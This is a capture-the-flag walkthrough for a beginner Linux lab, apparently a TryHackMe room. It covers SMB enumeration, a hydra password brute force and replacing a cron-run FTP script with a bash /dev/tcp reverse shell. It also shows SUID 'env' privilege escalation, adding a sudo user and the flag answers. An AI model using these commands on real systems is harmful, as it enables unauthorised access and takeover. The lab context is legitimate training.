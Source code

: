 Anonymous
#########
:Author: David Boyd
:Date: 2020-11-22

[Task 1] Pwn
************

Try to get the two flags!  Root the machine and prove your understanding of the
fundamentals! This is a virtual machine meant for beginners. Acquiring both
flags will require some basic knowledge of Linux and privilege escalation
methods.

For more information on Linux, check out `Learn Linux
<https://tryhackme.com/room/zthlinux>`_

1. Enumerate the machine.  How many ports are open?
:Answer: 4

2. What service is running on port 21?
:Answer: FTP

3. What service is running on ports 139 and 445?
:Answer: SMB

4. There's a share on the user's computer.  What's it called?
:Answer: pics

Walkthrough
===========
:Reference: `SMB Enum Shares <https://bestestredteam.com/2019/03/15/using-smbclient-to-enumerate-shares/>`_

.. code-block:: Bash

	# enumerate SMB shares
	smbclient -L $TM

	# connect to share
	smbclient \\\\$TM\\pics

5. user.txt
:Answer: 90d6f992585815ff991e68748c414740
:Walkthrough: GOTO Reverse SHell

6. root.txt
:Answer: 4d930091c31a622a7ed10f27999af363
:Walkthrough: GOTO Privilege Escalation

Reconnaissance
**************

SMB Fun
=======

enum4linux
	a wrapper around the Samba tools: smbclinet, rpclient, net, and nmblookup.
	`enum4linux -A $TM` (Note: Does NOT identify vulns)

hydra
	`hydra -l namelessone -P /usr/share/wordlists/rockyou.txt smb -V -f -t 40`

nbtscan
	scan networks searching for NetBIOS information. `nbtscan $TM`

nmap scripts
	detect if SMB/Samba server is vulnerable to a RCE vuln. `nmap --script
	smb-vuln* -p 139,445 $TM` (Note: It's not; but there is a DOS)

nmblookup
	NetBIOS over TCP/IP client used to lookup NetBIOS names. `nmblookup -A $TM`

rpclient
	test MS-RPC functionality in Samba, manage Windows NT clients from UNIX
	workstations, and **open an authenticated SMB session w/ a NULL Session by
	entering username of ""**

.. code-block:: Bash

	# Connect to server
	rpcclient -U "" -N $TM
	# Enumerate users
	enumdomusers
		> user:[namelessone] rid:[0x3eb]
	# Query user to catch all kinds of information related to an individul user
	queryuser namelessone		# method 1
	queryuser 0x3eb      		# method 2

smbclient
	is a client that offers an interface similar to that of the FTP prgm that
	can 'talk' to an SMB/CIFS server.

.. code-block:: Bash

	# List shares
	smbclient -L $TM
	# Start smb session
	smbclient //$TM/<share>			# method 1
	smbclinet \\\\$TM\\<share>		# method 2

smbmap
	lists share drives, drive **permissions**, share contents, up/download
	functionality, file name auto-download pattern matching, and even execute
	remote commands.

.. code-block:: Bash

	smbmap -H $TM
	smbmap -H $TM -d <domainName(workgroup)> -u <userName> -p <password>

Reverse Shell
=============

.. code-block:: Bash

	## In FTP server
	ftp $TM 21					### NOTE: use 'lftp' from now on
	cd scripts
	get clean.sh				### NOTE: use 'lftp > edit'

	## In LHOST
	vim clean.sh
	# Replace then statement with reverse shell
	bash -i >& /dev/tcp/10.x.x.x/4444 0>&1
	# setup listener
	nc -nvlp 4444

	## In FTP server
	# Replace clean.sh with your reverse shell version
	put clean.sh

	## IN LHOST > nc
	# upgrade simple shell to a fully interactive ttys
	python -c 'import pty; pty.spawn("/bin/bash")'	# can be sketchy on this.$TM

	# GOTO CTF(1) user.txt

Privilege Escalation
====================

.. code-block:: Bash

	# Find our SUID files
	find / -perm /4000 2>/dev/null
		# files of particular interest
		/usr/bin/env

	# GOTO https://gtfobins.github.io/ -> env

	# Escalate Privs
	/usr/bin/env /bin/sh -p
	whoami

	# GOTO CTF(2) root.txt

Capture The Flag
================

.. code-block:: Bash

	# CTF users.txt
	ls
	cat users.txt

	# CTF users.txt
	find / -type f -name "root.txt" 2>/dev/null
	cat /root/root.txt

Other Fun Stuff
===============

useradd
-------
:Note: Doesn't work with cronjob script :(

.. code-block:: Bash

	# Add a user to sudoer group; password must be hashed!
	# useradd -g(roup) -p(assword-Hashed) <newUserName>
	sudo useradd -g sudo -p $( perl -e 'print crypt("student", "salt")') student

	perl -e 'print crypt("student", "salt")'
		> sa5hbTIQ04V26

lftp
----
:Purpose: You can use in-server editing of files!

lftp
	is a file transfer program that allows sophisticated FTP, HTTP and other
	connections to other hosts.

